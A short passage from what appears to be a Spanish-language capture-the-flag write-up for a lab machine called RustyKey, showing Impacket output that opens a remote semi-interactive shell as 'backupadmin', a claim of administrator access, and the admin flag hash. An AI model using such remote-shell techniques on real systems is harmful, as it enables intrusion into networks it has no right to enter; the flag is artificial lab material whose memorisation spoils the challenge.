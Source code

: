 Info:

```
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
rustykey\backupadmin
```

Veremos que ha funcionado, por lo que ya seremos `administradores` directamente, vamos a leer la `flag` del `admin`.

> root.txt

```
efc86097c45744b15a656a1e51cbf774
```
